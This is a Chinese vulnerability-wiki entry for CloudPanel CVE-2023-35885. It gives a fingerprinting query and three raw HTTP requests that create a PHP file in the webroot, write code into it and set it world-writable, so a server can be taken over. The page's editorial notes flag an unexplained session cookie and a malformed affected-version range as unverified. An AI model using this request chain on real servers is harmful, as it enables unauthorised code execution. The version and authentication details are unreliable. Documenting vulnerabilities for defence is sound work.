




# CloudPanel makefile 任意文件上传漏洞 CVE-2023-35885

<!-- vulwiki-editorial:start -->
## 校订与适用边界

clp-fm Cookie 的取得方式与权限来源未说明，不能把带有该 Cookie 的请求视作已证明匿名利用。原版本表达式无效，保留为待核记录。

- 适用前提：clp-fm cookie supplied, provenance/auth bypass unexplained; writable PHP webroot
- 证据范围：makefile->text->permissions workflow; upload label obscures create/write authorization issue

### 本次正文校订

- 按实际内容修正 3 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- Malformed impossible range '2.0.0 >= 2.3.0'; determine intended inclusive interval
- Hardcoded clp-fm token without explanation is central prerequisite, not reproducible authentication proof
- Blank Host and stale lengths; unnecessary permission0777 step needs side-effect caveat
- No primary advisory/patch or attacker authorization model

### 操作风险与资料使用

- 文中的明文凭据、会话或密钥已用中段星号脱敏，保留首尾供比对；示例不能直接照抄登录。仅替换为自有隔离环境凭据，已暴露的真实凭据应撤销或轮换。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

CloudPanel是一个免费的基于PHP的高性能服务器控制面板，具有轻量级组件和现代功能，易于使用，且支持多个PHP版本，提供多语言版本切换。

CloudPanel makefile 接口存在任意文件上传漏洞，攻击者通过漏洞可以获取服务器权限。

## 漏洞影响

cloudpanel 2.0.0 >= 2.3.0

## 网络测绘

```
title=="CloudPanel | Log In"
```

## 漏洞复现

登陆页面




poc

```http
POST /file-manager/backend/makefile HTTP/1.1
Host: 
Accept: */*
Connection: keep-alive
Cookie: clp-fm=ZG************************M=
Content-Length: 54
Content-Type: application/x-www-form-urlencoded

id=/htdocs/app/files/public/&name=Test.php
```




```http
POST /file-manager/backend/text HTTP/1.1
Host: 
Accept: */*
Connection: keep-alive
Cookie: clp-fm=ZG************************M=
Content-Length: 289
Content-Type: application/x-www-form-urlencoded

id=/htdocs/app/files/public/Test.php&content=<?php phpinfo()?>
```




```http
POST /file-manager/backend/permissions HTTP/1.1
Host: 
Accept: */*
Connection: keep-alive
Cookie: clp-fm=ZG************************M=
Content-Length: 65
Content-Type: application/x-www-form-urlencoded

id=/htdocs/app/files/public/Test.php&permissions=0777
```




访问

```
/Test.php
```


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
